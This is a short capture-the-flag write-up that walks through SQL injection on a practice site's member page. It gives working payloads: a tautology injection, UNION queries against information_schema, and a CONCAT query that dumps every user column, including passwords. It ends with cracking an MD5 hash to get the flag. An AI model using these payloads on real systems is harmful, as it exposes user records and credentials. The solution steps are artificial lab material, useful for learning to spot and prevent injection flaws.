 SQL injection on member page

We have to change the member by their ids
Let's try to do a Where clause that is always True like 1=1

1 OR 1=1 is equal to WHERE users.id = 1 OR 1 = 1 (so is always true)

it gives us all the users in the table users\*, the last one shown seems to contain the flag
Why -1 ?
-1: This value is typically used to make the original query return no results. It can be any value that doesn't exist in the database, depending on the context of the query.

Now let's determine all the column present in users table, for this we're going to do a UNION injection

This one doesn't work:
-1 UNION SELECT \* from users

So let's try to dig in the default table containing the metadata of all column of the db:
-1 UNION SELECT table_name, column_name FROM information_schema.columns

We now have the whole table structure
user_id, first_name, last_name, town, country, planet, Commentaire, countersign

We know that the query only returns two column first name and surname so lets CONCAT all the column into one:
-1 UNION SELECT CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) as first_name, 1 from users

last result:
First name: FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

Look for the md5 decrypt of the script then lower the string and then hash it in sh256, the flag should be the result of it
